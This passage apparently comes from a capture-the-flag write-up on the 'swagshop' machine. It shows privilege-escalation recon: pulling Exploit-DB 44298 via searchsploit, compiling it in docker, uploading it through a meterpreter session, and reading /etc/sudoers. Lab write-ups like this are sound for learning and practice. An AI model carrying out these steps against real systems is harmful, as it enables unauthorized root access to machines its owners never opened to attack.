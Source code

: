 ```
OS          : Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64

```
A quick google search for that linux kernel version leads to https://www.exploit-db.com/exploits/44298 which is a local priv esc vuln for this kernel

```
searchsploit -p 44298
Exploit: Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/44298
     Path: /usr/local/opt/exploitdb/share/exploitdb/exploits/linux/local/44298.c
File Type: c program text, ASCII text, with CRLF line terminators

Copied EDB-ID #44298's path to the clipboard.
cp /usr/local/opt/exploitdb/share/exploitdb/exploits/linux/local/44298.c ./
```

The exploit requires some linux kernel headers, so we'll compile this in a docker container

```
docker run --rm -it -v "$PWD":/usr/src/myapp -w /usr/src/myapp buildpack-deps:xenial bash
curl -O https://mirrors.edge.kernel.org/pub/linux/kernel/v4.x/linux-4.4.146.tar.xz
tar xf linux-4.4.146.tar.xz -C /usr/src/
gcc 44298.c -o root
```

In the meterpreter session
```
upload root /tmp/root
```

When I tried to execute this, I always got an error about permissions.

More recon
```
cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
```